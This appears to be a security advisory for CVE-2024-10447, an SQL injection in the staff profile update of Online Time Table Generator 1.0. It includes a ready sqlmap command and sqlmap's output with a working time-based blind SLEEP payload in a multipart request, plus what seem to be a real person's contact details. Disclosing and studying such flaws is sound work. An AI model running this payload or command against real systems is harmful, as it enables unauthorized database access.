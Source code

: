 # SQL Injection vulnerability from Project Worlds Online Time Table Generator 1.0 (/staffdashboard.php)
## CVE-2024-10447

> A vulnerability, which was classified as critical, has been found in Project Worlds Online Time Table Generator 1.0. Affected by this issue is some unknown functionality of the file /timetable/staff/staffdashboard.php?info=updateprofile. The manipulation of the argument n leads to sql injection. This vulnerability is handled as CVE-2024-10447. The attack may be launched remotely. There is no exploit available.

**Affected Project**: Online Time Table Generator 1.0

**Official Website**: https://projectworlds.in/online-time-table-generator-php-mysql/

**Version**: 1.0

**Related Code file**: staffdashboard.php

**Injection parameter**: `MULTIPART n`

## Vulnerability Description

When updating profile as the staff, **MULTIPART n** parameter is vulnerable to SQL injection vulnerability.

## Demonstration

staff can update profile as such:

![Screenshot from 2024-10-27 15-43-22](https://github.com/user-attachments/assets/27475c73-41a0-45eb-b46b-43ce5041bd40)

Intercept the traffic using Burp Suite:

![Screenshot from 2024-10-27 15-43-36](https://github.com/user-attachments/assets/56230041-c4de-4e59-982b-6df28835de05)

Now copy-paste the traffic and save it in to `update.req` and run `sqlmap` against it: `sqlmap -r update.req --batch --level 5 --risk 3 --dbms mysql`

`sqlmap` automatically exploits the vulnerability:

![Screenshot from 2024-10-27 15-46-14](https://github.com/user-attachments/assets/020e0ccb-ab9e-4e1f-b672-bf7cb2a61868)

```
---
Parameter: MULTIPART n ((custom) POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: ------WebKitFormBoundaryObNAzPyhmwmlBlmM
Content-Disposition: form-data; name="dep_id"

13
------WebKitFormBoundaryObNAzPyhmwmlBlmM
Content-Disposition: form-data; name="semester"

1
------WebKitFormBoundaryObNAzPyhmwmlBlmM
Content-Disposition: form-data; name="n"

Baijnath Kaushik' WHERE 9301=9301 AND (SELECT 4111 FROM (SELECT(SLEEP(5)))tNyi)-- Zhkv
------WebKitFormBoundaryObNAzPyhmwmlBlmM
Content-Disposition: form-data; name="e"

baijnath@smvdu.ac.in
------WebKitFormBoundaryObNAzPyhmwmlBlmM
Content-Disposition: form-data; name="p"

baijnath
------WebKitFormBoundaryObNAzPyhmwmlBlmM
Content-Disposition: form-data; name="m"

1234554321
------WebKitFormBoundaryObNAzPyhmwmlBlmM
Content-Disposition: form-data; name="a"

asdasdfaf
------WebKitFormBoundaryObNAzPyhmwmlBlmM
Content-Disposition: form-data; name="update"

Update Records
------WebKitFormBoundaryObNAzPyhmwmlBlmM--
```
